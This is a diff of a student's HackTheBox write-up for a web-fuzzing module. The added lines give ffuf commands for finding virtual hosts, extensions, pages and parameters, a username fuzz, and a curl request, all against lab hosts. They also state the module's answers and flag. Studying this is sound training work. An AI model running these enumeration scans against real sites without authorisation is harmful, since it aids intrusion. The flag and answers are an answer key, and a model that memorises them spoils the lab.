

Before and after one commit to atutko2/HackTheBox, a Markdown page: Modules/AttackingWebApplicationsWithFFUF/AttackingWithFFUF.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Completed attacking with FFUF

```diff
--- a/Modules/AttackingWebApplicationsWithFFUF/AttackingWithFFUF.md
+++ b/Modules/AttackingWebApplicationsWithFFUF/AttackingWithFFUF.md
@@ -143,7 +143,7 @@ The questsions are:
 After adding the IP and academy.htb to /etc/hosts:
 Running `ffuf -w ../SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:31637/ -H 'Host: FUZZ.academy.htb' -fs 985` returns the answer.
 
-The answer was archive test faculty. The reason we only look for vhosts here is because this is not a public box. So there will not be any public subdomains to find.
+The answer was 'archive test faculty'. The reason we only look for vhosts here is because this is not a public box. So there will not be any public subdomains to find.
 
 
 ### Before you run your page fuzzing scan, you should first run an extension fuzzing scan. What are the different extensions accepted by the domains?
@@ -152,14 +152,31 @@ After adding the above vhosts to the /etc/hosts file. We can run:
 `ffuf -w ../SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://faculty.academy.htb:31637/indexFUZZ`
 And run it on the other two vhosts as well.
 
-The answer to this question is: .php .php7 .phps
+The answer to this question is: '.php .php7 .phps'
 
 
 ### One of the pages you will identify should say 'You don't have access!'. What is the full page URL?
 
+Running this command on all of the sites identifies the page:
+`ffuf -w ../SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://VHOST.academy.htb:PORT/courses/FUZZ -recursion -recursion-depth 1 -e php,phps,.php7 -v -ic -fs 287`
 
+The answer is http://faculty.academy.htb:PORT/courses/linux-security.php7.
 
 ### In the page from the previous question, you should be able to find multiple parameters that are accepted by the page. What are they?
 
+Running `ffuf -w ../SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://faculty.academy.htb:PORT/courses/linux-security.php7?FUZZ=key' -fs 774` returns user as a valid parameter
+
+And running `ffuf -w ../SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://faculty.academy.htb:31637/courses/linux-security.php7' -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -fs 774` returns user and username
+
+The answer to this is 'user username'
 
 ### Try fuzzing the parameters you identified for working values. One of them should return a flag. What is the content of the flag?
+
+We can now do a POST fuzz on username parameter to find the flag. If we run:
+` ffuf -w ../SecLists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u 'http://faculty.academy.htb:PORT/courses/linux-security.php7' -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -fs 781`
+
+We get these usernames: harry, Harry, HARRY.
+
+Running: `curl 'http://faculty.academy.htb:PORT/courses/linux-security.php7' -X POST -d "username=harry" -H 'Content-Type: application/x-www-form-urlencoded'` gets the answer.
+
+The answer to this: 'HTB{w3b_fuzz1n6_m4573r}'
```
